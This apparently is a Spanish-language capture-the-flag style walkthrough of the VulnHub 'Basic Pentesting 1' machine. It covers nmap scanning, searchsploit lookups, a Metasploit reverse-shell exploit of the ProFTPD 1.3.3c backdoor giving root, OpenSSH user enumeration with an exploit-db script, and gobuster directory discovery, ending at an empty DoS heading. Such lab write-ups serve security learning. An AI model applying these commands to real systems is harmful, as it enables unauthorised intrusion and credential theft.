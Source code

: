 # Máquina vulnerable de vulnhub
Dificultad: 
  Fácil

Fuente:
  https://www.vulnhub.com/entry/basic-pentesting-1,216/

<img src="https://www.vulnhub.com/media/img/entry/watermarked/abee4bba0a38da507a6e8697537f04af9dfa63a6.png" align="top" width="640" height="480"></img>

# Explotación de la máquina
Averiguramos la ip de la máquina a explotar
nmap -sL 192.168.56.0/24<br>
Nmap scan report for vtcsec (192.168.56.103)<p>
<img src="https://github.com/aguayro/ciberseguridad/blob/a745f89a3fc90a98d3a4f07b21de74ac652dc09a/pentesting/vulnhub/csec/img/nmap-01.png" align="top"></img>

Descubrir los puertos abiertos en la máquina<br>
nmap -p- -n -sC -sV -sS 192.168.56.103 -oN csec.txt<br>
<img src="https://github.com/aguayro/ciberseguridad/blob/9d7277331e01053a7b9794343b4afd07f7897f5a/pentesting/vulnhub/csec/img/nmap-02.png" align="top"></img>

Resulta interesante el parametro -vvv del nmap<br>
nmap -vvv 192.168.56.103<br>
<img src="https://github.com/aguayro/ciberseguridad/blob/53901a26143a93b583d1ade1f88935691a55f379/pentesting/vulnhub/csec/img/nmap-03.png" align="top"></img>

## Explotación de las vulnerabilidades
La máquina tiene abiertos los siguientes puertos:
<ul>
  <li>21 ftp ProFTPD 1.3.3c</li>
  <li>22 ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2</li>
  <li>80 http Apache/2.4.18 (Ubuntu)</li>
</ul>
    
<p></p>
Veamos que vulnerabilidades tiene los servicios indicados:<br>
nmap -script=vuln 192.168.56.103<br>

<img src="https://github.com/aguayro/ciberseguridad/blob/90586e32fd3113ce47e72e032c3452ac827ea62c/pentesting/vulnhub/csec/img/nmap-04.png" align="top"></img>  

### Servicio proftp 1.3.3c
La versión del proftp 1.3.3c tiene una puerta trasera que puede ser explotada<br>
    
searchsploit proftp 1.3.3c
<img src="https://github.com/aguayro/ciberseguridad/blob/b3316b172c48a3a956056b56326f179c04370e7d/pentesting/vulnhub/csec/img/proftp-01.png" align="top"></img> 

Tenemos dos script para poder usar para explotar la vulnerabilidad del servicio de puerta trasera, un script realizado en python y el otro para el framework metasploit
  
### Open ssh 7.2p2
Nmap no detecta ninguna vulnerabilidad en el servicio, pero si buscamos por searchsploit nos devuelve algunas cositas.
<img src="https://github.com/aguayro/ciberseguridad/blob/b13203f5b3d251772fd995fc7967ec690883c828/pentesting/vulnhub/csec/img/open-ssh-01.png" align="top"></img> 

Es posible realizar enumeración de los usuarios, por otro lado buscando en internet nos aparecen varias referencias a vulnerabilidad en versiones anteriores 

<a href="https://thehackernews.com/2023/07/new-openssh-vulnerability-exposes-linux.html">Vulnerabilidad openssh < 9.2</a>

### Apache httpd 2.4.18
Nmap nos reportado vulnerable a ataque DOS, buscamos información sobre posibles fallos en la versión de apache 2.4.18 y encontramos lo siguiente:<br>

searchsploit apache 2.4.18
<img src="https://github.com/aguayro/ciberseguridad/blob/96659ac542e55b25fa49831a77b3881da6f26b60/pentesting/vulnhub/csec/img/apache-01.png" align="top"></img> 

Vulnerabilidad de apache que permite la escalación de privilegios: CVE-2019-0211<br>
<img src="https://github.com/aguayro/ciberseguridad/blob/841df8e72fdfcb8f6714df3ae4d7d29437f65a6a/pentesting/vulnhub/csec/img/apache-02.png" align="top"></img> 

Vulnerabilidad de memory leak: CVE-2017-9798<br>
<img src="https://github.com/aguayro/ciberseguridad/blob/aa60a0c51dd73f839bc34c3d3c09817d829f5e8d/pentesting/vulnhub/csec/img/apache-03.png" align="top"></img> 

Por otro lado hay que investigar que se esconde dentro de la carpeta /secret

<hr>

# Vectores de ataque:
## Vulnerabilidad proftp 1.3.3c
Ejecutamos metasploit<br>
<img src="https://github.com/aguayro/ciberseguridad/blob/ae116da2525d422aff0965f39b89ef32cff38a60/pentesting/vulnhub/csec/img/metasploit.png" align="top"></img> 

Buscamos vulnetabilidad para el servicio ftp para la versión de 1.3.3c de proftp
msf6 > search proftp 1.3.3c
<img src="https://github.com/aguayro/ciberseguridad/blob/40d937f0b8672e179afb9c60320a9e1b2989c72b/pentesting/vulnhub/csec/img/proftp-02.png" align="top"></img> 

Usamos el script por defecto y lo configuramos<br>
msf6 > use 0<br>
<img src="https://github.com/aguayro/ciberseguridad/blob/93177fa15813fc3257205e9c834a488095959599/pentesting/vulnhub/csec/img/proftp-03.png" align="top"></img> 

Cargamos un payload para que nos crea una sessión en la máquina atacada
msf6 > show payloads<br>
msf6 > set payload payload/cmd/unix/reverse<br>
<img src="https://github.com/aguayro/ciberseguridad/blob/e9911ef860e7613d0b3da81e09fdb1e9094b0099/pentesting/vulnhub/csec/img/proftp-04.png" align="top"></img> 

Lanzamos el script
msf6 > run<br>
<img src="https://github.com/aguayro/ciberseguridad/blob/cc1095ed762cb9e1fd78bb73e2567a255be7ace0/pentesting/vulnhub/csec/img/proftp-05.png"  align="top"></img> 

Nos devuelve un error indicando que falta por configurar la dirección ip desde donde se lanza el ataque para el reverse shell, configuramos lo que nos falta y volvemos a lanzar el script.<br>
<img src="https://github.com/aguayro/ciberseguridad/blob/24178c71f4341e9de2afd16f14336ddfc4076de7/pentesting/vulnhub/csec/img/proftp-06.png"  align="top"></img> 

El script funciona correctamente y nos devuelve una shell, comprobamos que somos root en la máquina csec.<br>

Descargamos el fichero de claves para crackearlo con johh the ripper<br>
<img src="https://github.com/aguayro/ciberseguridad/blob/f1bae791f185d5963026a151379df0ecdd7308f4/pentesting/vulnhub/csec/img/proftp-09.png"  align="top"></img> 

<p>
Usuario: marlinspike<br>
Contraseña: marlinspike
</p>

## Vulnerabilidad openssh 7.2p2
Realizando una búsquedad en searchsploit encontramos varias vulnerabilidades de enumeración de usuarios del servicio openssh 7.2p2 que produce un desbordamiento de buffer.

<img src="https://github.com/aguayro/ciberseguridad/blob/38a03cc3cb97bc020d9c268810af5bb7a6e4690d/pentesting/vulnhub/csec/img/open-ssh-02.png"  align="top"></img> 

Comprobamos el script en python 40136<br>
python /usr/share/exploitdb/exploits/linux/remote/40136.py -e -u marlinspike 192.168.56.103 
<img src="https://github.com/aguayro/ciberseguridad/blob/a1cac0cc1738057621d2735bc7f45962fccebdbe/pentesting/vulnhub/csec/img/openssh-03.png"  align="top"></img> 

<a href="https://blog.nviso.eu/2018/08/21/openssh-user-enumeration-vulnerability-a-close-look">Explicación vulnerabilidad openssh</a>

## Vulnerabilidad Apache 2.4.18
En el servidor apache tenemos varios vectores de ataque, como hemos visto anteriormente.<br>
Comprobamos la versión de apache que nos ha devuelto nmap con el comando whatweb.<br>
whatweb 192.168.56.103<br>

<img src="https://github.com/aguayro/ciberseguridad/blob/9634d094f8d9355df2582ec93f95f318163e63a1/pentesting/vulnhub/csec/img/apache-04.png" align="top"></img> 

Accedemos a la web para comprobar su contenido<br>
<img src="https://github.com/aguayro/ciberseguridad/blob/48d9bd19f8ac13c1695f24c82f1446336a1824f6/pentesting/vulnhub/csec/img/apache-05.png" align="top"></img>

No nos muestra gran cosa, sólo la página por defecto del servidor apache. Investigamos si hay otros directorios servidor con la ayuda de gobuster o dirb
gobuster dir -u 192.168.56.103 -e -w /usr/share/wordlists/dirb/common.txt<br>

<img src="https://github.com/aguayro/ciberseguridad/blob/58afd99a4e6df8e8f0b34e4587a584314ac6616c/pentesting/vulnhub/csec/img/apache-06.png"  align="top"></img>
Parece que hemos descubierto un directorio oculto en el servidor apache, vamos a ver lo que hay dentro.


### Ataque DOS
### 
  
  

  
